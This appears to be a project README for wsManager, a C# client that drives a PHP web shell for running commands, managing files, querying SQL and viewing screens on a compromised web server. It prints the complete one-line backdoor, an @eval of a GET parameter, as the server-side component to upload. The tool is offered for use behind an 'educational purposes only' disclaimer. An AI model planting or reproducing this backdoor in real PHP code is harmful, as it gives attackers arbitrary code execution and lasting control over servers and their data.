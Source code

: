 ## Information

wsManager can be used to quickly execute commands on a server while pentesting a PHP application. 
The client interface is written in C#, which operate using a simple web-based backdoor implemented by user himself.

Once uploaded, the web shell can be accessed by the client at any time. Once successfully connected, the user proceeds to manipulate files and data on the web server.

The server-side code is extremely simple and contains just a single line of code :
```php
<?php @eval($_GET["x"]); ?>
```

Many commands and control features:

  * File manager (upload, download, archiver, etc)
  * Command execution
  * PHP Exec
  * SQL Explorer
  * Screen Viewer (windows only)

## Documentation

Coming soon

## Screenshots

![](https://i.imgur.com/1JfWKsR.png)
![](https://i.imgur.com/ZU4HJmd.png)
![](https://i.imgur.com/3I7Rjdf.png)
![](https://i.imgur.com/zbB5XTs.png)
![](https://i.imgur.com/dWVfZOU.png)
![](https://i.imgur.com/VeRb4dN.png)
![](https://i.imgur.com/2qn6pYq.png)

## Disclaimer

*I, the creator, am not responsible for any actions, and or damages, caused by this software.
You bear the full responsibility of your actions and acknowledge that this software was created for educational purposes only.
This software's main purpose is NOT to be used maliciously, or on any system that you do not own, or have the right to use.
By using this software, you automatically agree to the above.*

## Changelog

### 04/04/2019
- PHP Code Execution
### 03/04/2019
- HTTPS Support
### 09/09/2019
- ScreenViewer Added

## Misc

Todo:
  * .
